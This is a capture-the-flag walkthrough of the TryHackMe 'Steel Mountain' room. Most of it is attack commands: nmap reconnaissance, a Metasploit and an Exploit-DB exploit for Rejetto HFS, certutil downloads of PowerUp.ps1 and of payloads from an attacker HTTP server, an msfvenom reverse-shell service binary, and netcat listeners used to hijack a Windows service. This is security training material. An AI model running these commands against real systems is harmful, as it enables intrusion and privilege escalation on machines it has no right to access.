 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -A` 10.10.248.189

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

`msfconsole`&#x20;

`use exploit/windows/http/rejetto_hfs_exec`&#x20;

`set LHOST 10.10.62.157`&#x20;

`set RHOSTS 10.10.181.159`&#x20;

`set RPORT 8080`

`exploit`

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

`nc -nvlp 443`

`cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .`

`python2 -m SimpleHTTPServer 81`

`python2 exploit.py 10.10.181.159 8080`

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

`wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`&#x20;

`python2 -m SimpleHTTPServer 81`

**Windows**

`certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1`&#x20;

`. .\PowerUp.ps1`&#x20;

`Invoke-AllChecks`

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o` ASCService.exe



I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

`cd C:\Program Files (x86)\IObit\Advanced SystemCare`\
`sc stop AdvancedSystemCareService9`&#x20;

`certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe`

**Kali**

`nc -lvnp 4443`

**Victim**

`sc start AdvancedSystemCareService9`

![](<../../.gitbook/assets/image (3) (1).png>)

``



